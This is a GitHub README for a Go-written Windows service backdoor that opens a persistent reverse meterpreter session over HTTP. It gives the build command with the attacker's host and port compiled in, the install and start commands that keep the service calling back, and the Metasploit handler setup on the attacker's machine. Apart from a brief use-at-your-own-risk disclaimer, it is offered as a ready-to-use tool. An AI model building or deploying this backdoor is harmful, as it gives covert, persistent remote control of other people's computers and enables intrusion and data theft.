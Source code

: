 ## Powershell Reverse Http

> Note: Use this program at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization

> Meterpreter-like backdoors are a pretty common attack vector and most decent antiviruses detect this behavior as a virus.

A simple windows service running on background that connects with a meterpreter session via http.

### Usage
First, you need [go](https://golang.org/dl/) for build the binary (duh!) and [metasploit-framework](https://github.com/rapid7/metasploit-framework) to accept the reverse connection:

```
git clone https://github.com/mauri870/powershell-reverse-http.git
cd powershell-reverse-http
env GOOS=windows go build -ldflags "-X main.LHOST=10.10.10.2 -X main.LPORT=3000" -o powershell-reverse.exe
```

Change the LPORT and LHOST to match your metasploit handler

## Usage
```
powershell-reverse.exe
no command specified

usage: powershell-reverse.exe <command>
       where <command> is one of
       install, remove, debug, start, stop, restart, pause or continue.
```

After install and start, the service is always up and trying to connect on host and port specified on `exploit.go`

On the attacker's machine:

```
./msfconsole --quiet
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST YOUR_IP_ADDRESS_HERE
LHOST => YOUR_IP_ADDRESS_HERE
msf exploit(handler) > set LPORT YOUR_PORT_TO_AWAIT_CONNECTION_HERE
LPORT => YOUR_PORT_TO_AWAIT_CONNECTION_HERE
msf exploit(handler) > exploit

[*] Started HTTP reverse handler on http://LHOST:LPORT
[*] Starting the payload handler... 
```
